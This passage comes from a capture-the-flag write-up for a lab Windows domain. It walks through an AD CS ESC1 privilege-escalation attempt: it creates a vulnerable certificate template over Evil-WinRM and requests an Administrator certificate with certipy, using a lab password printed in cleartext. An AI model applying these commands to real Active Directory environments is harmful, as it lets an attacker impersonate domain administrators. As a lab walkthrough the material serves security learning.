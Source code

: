 - Exporting two templates (SubCA and User) that when combined give me everything to exploit ESC1
- However it seems the newly created template wasn't supported by the CA

At first, I tried exporting two templates (SubCA and User) to combine their properties for ESC1 exploitation. However, it turned out the newly created template wasn't supported by the CA.

```bash
*Evil-WinRM* PS C:\Users\e.black\Documents> Export-ADCSTemplate -displayname "SubCA" > .\subca.json
*Evil-WinRM* PS C:\Users\e.black\Documents> Export-ADCSTemplate -displayname "User" > .\DU_perms.json
*Evil-WinRM* PS C:\Users\e.black\Documents> upload vuln.json
*Evil-WinRM* PS C:\Users\e.black\Documents> New-ADCSTemplate -DisplayName VulnTemplate -JSON (Get-Content .\vuln.json -Raw) -Identity "CODER.HTB\PKI Admins" -AutoEnroll -Publish
*Evil-WinRM* PS C:\Users\e.black\Documents> certutil -CATemplates
VulnTemplate: VulnTemplate -- Auto-Enroll: Access is denied.
---snip---
```

```bash
---Certipy-Output---
---snip--
    [!] Vulnerabilities
      ESC1                              : 'CODER.HTB\\PKI Admins' can enroll, enrollee supplies subject and template

```

```bash
❯ certipy req \
-u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300' \
-ca 'coder-DC01-CA' -target coder.htb \
-upn Administrator@coder.htb -dns dc01.coder.htb -dc-ip 10.129.229.190 \
-template VulnTemplate
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 15
Would you like to save the private key? (y/N) y
[*] Saved private key to 15.key
[-] Failed to request certificate
```

I later realized that by having `EnrolleeSuppliesSubject` with SubCA, the `New-ADCSTemplate` parameters allowed me to manage additional permissions for the template:

- `-Identity` is utilized for permissioning the template.
- `-AutoEnroll` is employed to grant AutoEnroll to the specified identity.

This alone gives me access to a bunch of ADCS vulnerabilities.

```powershell
*Evil-WinRM* PS C:\Users\e.black\Documents> New-ADCSTemplate -DisplayName Abraxas -JSON (Export-ADCSTemplate -DisplayName "Subordinate Certification Authority") -publish -Identity "CODER.HTB\PKI Admins"
*Evil-WinRM* PS C:\Users\e.black\Documents> certutil -CATemplates
Abraxas: Abraxas -- Auto-Enroll: Access is denied.
---snip---
```
